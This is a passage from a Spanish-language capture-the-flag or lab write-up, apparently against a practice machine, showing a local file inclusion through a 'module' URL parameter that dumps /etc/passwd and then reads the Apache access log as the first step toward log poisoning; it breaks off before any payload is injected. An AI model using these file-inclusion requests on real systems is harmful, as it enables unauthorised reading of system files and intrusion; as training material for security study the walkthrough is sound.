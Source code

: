 ## Local File Inclusion (LFI)

Si nos metemos en el siguiente `link` llamado `experimentos interactivos` veremos una `URL` asi:

```
URL = http://g00dj0b.reverse.dl/experiments.php?module=./modules/default.php
```

Por lo que probaremos a poner `/etc/passwd` ya que tiene pinta de que puede ser vulnerable.

```
URL = http://g00dj0b.reverse.dl/experiments.php?module=/etc/passwd
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
Debian-exim:x:100:108::/var/spool/exim4:/usr/sbin/nologin
maci:x:1000:1000:macimo,,,:/home/maci:/bin/bash
nova:x:1001:1001:nova,,,:/home/nova:/bin/bash
```

Vemos que funciona un `LFI`, por lo que vamos a probar a realizar un `LOG POISONING`, primero veremos si podemos entrar en los logs:

### LOG POISONING

```shell
http://g00dj0b.reverse.dl/experiments.php?module=/var/log/apache2/access.log
```

Info:

```
172.17.0.1 - - [24/Dec/2024:17:23:34 +0000] "GET /experiments.php?module=/var/log/apache2/access.log HTTP/1.1" 200 446 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
```
